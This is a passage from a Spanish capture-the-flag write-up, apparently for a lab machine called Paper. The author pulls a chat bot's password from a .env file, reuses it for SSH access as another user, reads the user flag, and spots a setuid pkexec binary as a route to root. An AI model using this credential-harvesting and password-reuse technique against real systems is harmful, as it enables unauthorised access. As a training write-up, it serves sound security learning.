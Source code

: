 ```
<!=====Contents of file ../hubot/.env=====>
export ROCKETCHAT_URL='http://127.0.0.1:48320'
export ROCKETCHAT_USER=recyclops
export ROCKETCHAT_PASSWORD=Queenofblad3s!23
export ROCKETCHAT_USESSL=false
export RESPOND_TO_DM=true
export RESPOND_TO_EDITED=true
export PORT=8000
export BIND_ADDRESS=127.0.0.1
<!=====End of file ../hubot/.env=====>
```

Epa! Tenemos las credenciales de conexión al chat del usuario **`recyclops`** (el bot). Anteriormente vimos que dicho usuario hacía mención a otro usuario de nombre **`Dwight`**.
Podemos probar a ver si hay reutilización de contraseñas para conectarnos por SSH como el usuario **`dwight`**:

```console
p3ntest1ng:~$ ssh dwight@office.paper
The authenticity of host 'office.paper (10.10.11.143)' can't be established.
ECDSA key fingerprint is SHA256:2eiFA8VFQOZukubwDkd24z/kfLkdKlz4wkAa/lRN3Lg.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'office.paper' (ECDSA) to the list of known hosts.
dwight@office.paper's password: 
Activate the web console with: systemctl enable --now cockpit.socket

Last login: Tue Feb  1 09:14:33 2022 from 10.10.14.23
[dwight@paper ~]$ ls
bot_restart.sh  hubot  pk.sh  sales  user.txt
[dwight@paper ~]$ cat user.txt
0baa09b7a49f6bc6950e5c32b0ea4b6f
[dwight@paper ~]$ 
```

Pues tenemos la flag del usuario así que echemos un vistazo para ver cómo podemos realizar la escalada de privilegios para conseguir acceso como root.

## Escalada de Privilegios

Lo primero sería comprobar si tenemos algún permiso a nivel de sudo (nos pedirá la contraseña, la cual conocemos):

```console
[dwight@paper ~]$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for dwight: 
Sorry, user dwight may not run sudo on paper.
[dwight@paper ~]$ ls -la $(which pkexec)
32 -rwsr-xr-x. 1 root root 29816 May 11  2019 /usr/bin/pkexec
[dwight@paper ~]$ Pues ya estaría...no? xDD
```
